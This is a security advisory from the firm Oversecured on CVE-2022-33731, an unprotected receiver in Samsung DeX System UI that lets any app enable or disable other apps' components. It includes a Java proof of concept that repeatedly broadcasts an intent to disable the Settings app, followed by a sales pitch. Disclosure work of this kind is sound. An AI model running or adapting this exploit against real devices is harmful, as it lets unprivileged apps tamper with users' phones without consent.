

# Details

<table>
    <tr>
        <td>Name</td>
        <td>Samsung DeX System UI</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.samsung.desktopsystemui</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.04.02</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.08.02</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Moderate</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-33731">CVE-2022-33731</a> (SVE-2022-0824)</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$1680</td>
    </tr>
</table>

# Description

Oversecured report:


The DeX app contained an unprotected receiver. It took the name of an Android component as input and then enabled or disabled it depending on the passed action, passing the component name to the `PackageManager.setComponentEnabledSetting()` system method. An attacker could take advantage of this error to change the operation of any apps. Calling this method requires the system permission `android.permission.CHANGE_COMPONENT_ENABLED_STATE`.

**Proof of Concept**

To activate the receiver, the user must start using DeX.

```java
new Thread(() -> {
    try {
        ComponentName componentName = new ComponentName("com.android.settings", "com.android.settings.Settings");
        Uri uri = Uri.parse("package://" + componentName.flattenToString());

        Intent i = new Intent("com.samsung.desktopsystemui.action.DISABLE_PLUGIN", uri);
        i.setPackage("com.samsung.desktopsystemui");
        while (true) {
            sendBroadcast(i);
            Thread.sleep(100);
        }
    } catch (Throwable th) {
        throw new RuntimeException(th);
    }
}).start();
```

## Conclusion

Mobile app security is more critical than ever in today's digital landscape. As we have shown through our research, even the most reputable brands are not immune to the threat of cyberattacks. 

At Oversecured, we are committed to help our clients stay ahead of the curve with our industry-leading mobile app vulnerability scanning technology. With our comprehensive approach to mobile app security, you can trust that your brand and your users are protected from data breaches and other security threats.

Don't wait until it's too late. [Get a free consultation](https://oversecured.com/contact-us?utm_source=github&utm_medium=article&utm_campaign=samsung2022) and find out how we can help secure your mobile apps. Together, we can build a safer digital world.